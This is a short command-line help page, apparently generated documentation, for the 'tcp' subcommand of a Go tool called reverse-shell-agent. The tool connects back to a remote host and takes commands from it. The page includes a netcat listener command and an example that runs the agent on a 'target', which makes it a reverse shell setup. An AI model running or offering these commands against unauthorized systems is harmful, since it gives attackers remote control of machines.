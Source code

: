 ## reverse-shell-agent tcp

Agent that connects to a remove tcp endpoints and listens for commands

### Synopsis

Agent that connects to a remove tcp endpoints and listens for commands

```
reverse-shell-agent tcp [flags]
```

### Examples

```
# On the client (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777

```

### Options

```
  -h, --help          help for tcp
      --host string   remote host to connect to (default "0.0.0.0")
      --port int32    remote port to connect to (default 8080)
```

### Options inherited from parent commands

```
  -v, --verbose int   Be verbose on log output
```

### SEE ALSO

* [reverse-shell-agent](reverse-shell-agent.md)	 - A Go agents listening for remote commands

